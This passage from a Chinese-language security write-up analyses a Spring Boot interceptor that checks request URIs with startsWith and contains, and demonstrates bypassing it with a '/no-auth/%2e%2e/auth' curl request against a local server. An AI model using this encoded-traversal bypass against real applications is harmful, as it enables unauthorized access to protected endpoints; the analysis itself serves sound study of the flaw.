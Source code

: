 ```
                             Object handler) throws Exception {
        String uri = request.getRequestURI();
        uri = uri.replaceAll("//", "/");
        System.out.println("RequestURI: "+uri);
        if (uri.contains("..") || uri.contains("./") ) {
            return false;
        }
        if (uri.startsWith("/no-auth")){
            return true;
        }
        return false;
    }
}


```

[由上面代码可以知道它使用了 getRequestURI 来进行路由判断。通常你可以看到如 `startsWith` ， `contains` 这样的判断方式，显然这是不安全的，我们绕过方式由很多比如 `..` 或 `..;` 等，但其实在用 `startsWith` 来判断白名单时构造都离不开跨目录的符号 `..` 那么像上述代码这种情况又如何来绕过呢? 答案就是 `%2e` 发起请求如下](https://mp.weixin.qq.com/s?__biz=MzA3MTUzOTcxOQ==&mid=2452981393&idx=2&sn=9c0005ed9e5119eef7183eb25db0edee&scene=21#wechat_redirect)

```
$ curl -v "http://127.0.0.1:8080/no-auth/%2e%2e/auth"
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /no-auth/%2e%2e/auth HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.64.1
> Accept: */*
>
< HTTP/1.1 200
< Content-Type: text/plain;charset=UTF-8
< Content-Length: 4
< Date: Wed, 14 Apr 2021 13:22:03 GMT
<
* Connection #0 to host 127.0.0.1 left intact
auth
* Closing connection 0


```

RequestURI 输出为

```
RequestURI:  /no-auth/%2e%2e/auth


```

[可以看到我们通过 `%2e%2e` 绕过了 PermissionInterceptor 的判断，同时匹配路由成功，很显然应用在进行路由匹配时会进行路径标准化包括对 `%2e` 解码以及处理跨目录即如果存在 `/../` 则返回上一级目录。我们再来切换 Spring Boot 版本再来看下](https://mp.weixin.qq.com/s?__biz=MzA3MTUzOTcxOQ==&mid=2452981393&idx=2&sn=9c0005ed9e5119eef7183eb25db0edee&scene=21#wechat_redirect)
